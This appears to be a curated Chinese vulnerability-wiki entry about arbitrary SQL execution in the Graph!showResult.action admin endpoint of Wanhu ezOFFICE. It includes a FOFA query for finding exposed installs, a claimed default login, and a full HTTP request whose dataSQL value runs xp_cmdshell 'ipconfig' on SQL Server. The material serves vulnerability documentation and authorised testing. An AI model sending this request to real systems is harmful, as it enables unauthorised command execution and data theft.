


# 万户ezOFFICE Graph!showResult.action后台任意SQL执行

## 条目说明

- 对象与具体问题：万户ezOFFICE；Graph!showResult.action后台任意SQL执行
- 版本、配置及部署条件：未给版本；SQL Server且xp_cmdshell可用/高数据库权限
- 认证与权限前提：后台有效OASESSIONID
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- dataSQL整条SQL直传更准确是任意SQL执行；xp_cmdshell不是所有部署通用
- 默认账号密码仅声称，无适用配置证据

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

万户OA showResult.action 存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

### 漏洞影响

```
万户OA
```

### 网络测绘

```
app="万户网络-ezOFFICE"
```

### 漏洞复现

产品页面



默认账号密码：admin/111111

发送请求包：

```http
POST /defaultroot/Graph!showResult.action HTTP/1.1 
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded 
Content-Length: 69 
Connection: close
Cookie: OASESSIONID=5AC1D44965A277C90D94B57DEDA82992; LocLan=zh_CN; JSESSIONID=5AC1D44965A277C90D94B57DEDA82992; OASESSIONID=5AC1D44965A277C90D94B57DEDA82992; ezofficeDomainAccount=whir; empLivingPhoto=; ezofficeUserName=dsfssaq; ezofficeUserPortal=; ezofficePortal135=1 
Upgrade-Insecure-Requests: 1

database=localDataSource&dataSQL=exec+master..xp_cmdshell+"ipconfig";
```

> 请求长度说明：原资料 Content-Length 为 69；保留原始标头；其数值未据实际请求体重新计算或验证。



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
